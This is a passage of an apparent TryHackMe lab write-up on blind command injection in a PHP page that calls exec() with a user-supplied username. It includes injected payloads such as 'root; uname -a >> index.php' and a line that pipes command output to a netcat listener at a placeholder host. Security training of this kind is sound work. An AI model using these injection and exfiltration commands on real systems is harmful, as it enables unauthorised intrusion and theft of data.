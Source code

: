    In pseudocode, the above snippet is doing the following:
    1. Checking if the parameter "username" is set
    2. If it is, then the variable `$username` gets what was passed into the input field
    3. The variable $command gets the system command `"awk -F: '{print $1}' /etc/passwd | grep $username";` where `$username` is what was entered in step 2.  This command is printing out the list of users from `/etc/passwd` and then selecting the one that was entered.  Note that this is not executing anything yet.
    4. Variable $returned_user then gets the result/return value of the function `exec($command)`.

    The rest of the code is fairly straightforward; set $result to a Bootstrap danger alert class if nothing was found in `/etc/passwd` and a success alert class if something was found.  Easy-peasy. 

    We can see in the above code that the response is never returned anywhere on the page.  The only thing that gets returned is an alert that says whether a user was found on the system or not. 

#### Exploiting Blind Command Injection
- `ping` can help us tell whether you have blind command injection or not.  Since the code is making a system call in some way, a ping will cause the page to continue loading until the command has completed.  So if we send a ping with 10 ICMP packets, the page should be loading for about 10 seconds.  If we send 20(!) packets, it should take about 20 seconds, and so on.

- `Ping` is usually enough to tell you whether you have blind command injection, but if you want to test further, you can attempt to **redirect the output of a command to a file**, then, using the browser, navigate to the page where the file is stored.  We all know the `>` Bash operator redirects output to a file or process so you could try redirecting the output of `id`, `whoami`, `netstat`, `ip addr` or other useful command to see if you can see the results.

- There is a way to bypass the blind injection with `netcat`.  You are able to pipe the output of a command to a `nc` listener.  You could do something like `root; ls -la | nc {VPN_IP} {PORT} `. This will send the output of `ls -la` to your `netcat` listener.

#### Answer
- Ping the box with 10 packets.  What is this command (without IP address)?
> $ ping -c 10

- Redirect the box's Linux Kernel Version to a file on the web server.  What is the Linux Kernel Version?
> I use [this payload](http://10.10.253.105/?username=root%3B+uname+-a+%3E%3E+index.php). Here is the result:<br><br><a href="/assets/images/tryhackme/injection/2.png"><img src="/assets/images/tryhackme/injection/2.png"></a>
